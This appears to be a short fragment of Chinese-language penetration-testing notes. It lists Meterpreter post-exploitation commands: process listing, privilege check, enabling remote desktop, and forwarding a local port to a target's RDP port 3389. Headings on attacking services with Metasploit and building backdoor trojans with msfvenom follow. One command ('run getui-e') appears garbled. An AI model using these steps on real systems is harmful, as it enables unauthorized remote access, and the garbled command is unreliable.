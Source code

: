 ####meterpreter > ps 查看进程

####meterpreter > getuid 查看当前用户权限

#### meterpreter > run getui-e 启用远程桌面

#### meterpreter > portfwd add -l 1234 -p 3389 -r <目标IP> 端口转发 

## 02.Metasploite攻击服务漏洞

## 03.Msfvenom生成后门木马



 